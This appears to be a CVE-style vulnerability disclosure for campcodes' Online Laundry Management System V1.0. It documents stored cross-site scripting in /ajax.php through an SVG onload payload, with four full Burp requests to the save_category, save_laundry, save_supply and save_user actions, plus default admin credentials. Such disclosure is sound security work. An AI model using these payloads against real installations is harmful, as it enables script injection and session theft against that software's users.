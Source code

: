 ## Online Laundry Management System

## XSS on `/ajax.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/ajax.php
```

The parameter `name/customer_name/username` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

**Payload:**

```
<svg/onload=alert``>
```

**Burp Request:**

```
POST /ajax.php?action=save_category HTTP/1.1
Host: 192.168.150.131
Content-Length: 338
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMLDvc4YcwfoiLyAu
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=categories
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="name"

<svg/onload=alert``>
------WebKitFormBoundaryMLDvc4YcwfoiLyAu
Content-Disposition: form-data; name="price"

30
------WebKitFormBoundaryMLDvc4YcwfoiLyAu--

```

![image-20240510170709318](./screenshot/image-20240510170709318.png)

```
POST /ajax.php?action=save_laundry HTTP/1.1
Host: 192.168.150.131
Content-Length: 1229
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGdW9FdTIRkbJnFyB
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=laundry
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="customer_name"

<svg/onload=alert``>
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="remarks"

2
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="item_id[]"


------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="laundry_category_id[]"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="weight[]"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="unit_price[]"

30
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="amount[]"

90
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="pay"

1
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="tendered"

4
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="tamount"

90
------WebKitFormBoundaryGdW9FdTIRkbJnFyB
Content-Disposition: form-data; name="change"

-86.00
------WebKitFormBoundaryGdW9FdTIRkbJnFyB--

```

![image-20240510165556312](./screenshot/image-20240510165556312.png)

```
POST /ajax.php?action=save_supply HTTP/1.1
Host: 192.168.150.131
Content-Length: 244
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymmTUxrAvdnynB6Ii
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=supply
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

------WebKitFormBoundarymmTUxrAvdnynB6Ii
Content-Disposition: form-data; name="id"


------WebKitFormBoundarymmTUxrAvdnynB6Ii
Content-Disposition: form-data; name="name"

<svg/onload=alert``>
------WebKitFormBoundarymmTUxrAvdnynB6Ii--

```

![image-20240510171922293](./screenshot/image-20240510171922293.png)

```
POST /ajax.php?action=save_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 87
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close

id=1&name=<svg/onload=alert`1`>&username=<svg/onload=alert`2`>&password=admin123&type=1
```

![image-20240510174657533](E:\CVE\Online Laundry Management System\screenshot\image-20240510174657533.png)

![image-20240510174630703](E:\CVE\Online Laundry Management System\screenshot\image-20240510174630703.png)









